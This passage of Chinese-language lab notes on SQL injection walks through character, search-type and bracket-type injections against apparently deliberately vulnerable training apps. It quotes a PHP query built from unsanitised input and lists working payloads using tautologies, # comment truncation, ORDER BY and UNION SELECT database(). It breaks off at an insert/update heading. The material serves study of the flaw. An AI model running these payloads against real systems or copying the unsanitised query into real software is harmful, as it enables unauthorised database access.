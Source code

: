 #### HIGH

```sql
'
1' and '1'='1
```

字符型注入

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;"; 
```

LIMIT 1限制了输出，可通过#将其注释掉，注释过程与low级别相同。
#### 搜索型注入

搜索语句：

```sql
select username,id,email from member where username like '%1%’ and 1=1 and '%'='%'
```

payload：

```sql
'
xxx%' and 1=1 and '%'='
xxx%' and 1=1 #
'
xxx%' or 1=1 #
'
xxx%' and 1=1 order by 13 #
'
x%' union select 1,2,database() #获取数据库名
```
#### xx型注入

查询语句：

```sql
select id,email from member where username=('$name')
```

payload：

```sql
'
lili') and 1=1 #
'
lili') or 1=1 #
'
lili') and 1=1 order by 2 #
'
lili') union select 1,database() #
```
#### "insert/update"注入

查询语句：
